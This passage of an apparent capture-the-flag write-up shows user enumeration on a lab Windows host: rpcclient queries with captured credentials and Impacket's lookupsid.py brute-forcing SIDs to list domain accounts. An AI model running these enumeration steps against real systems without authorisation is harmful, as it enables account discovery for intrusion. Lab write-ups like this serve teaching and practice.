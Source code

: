 We found three shares but only can read `IPC$`, so not really useful.

### MSRPC

Let's see if we can use the same credentials to authenticate to `msrpc`

```terminal
$ rpcclient -U 'hazard%stealth1agent' 10.10.10.149                                                                                                 130 ⨯
rpcclient $> srvinfo
        10.10.10.149   Wk Sv NT SNT         
        platform_id     :       500
        os version      :       10.0
        server type     :       0x9003
```

That worked.

Now we can enumerate users, and for that we need to get the SID of `hazard` using the command `lookupnames`

```terminal
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1009
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
rpcclient $> 

```

We got the sid of hazard and used it to look for other users and we managed to find user `support` by adding one to the last number in the SID.

To automate that process, we use `lookupsid.py` from `Impacket`

```terminal
$ lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

We got the usernames.
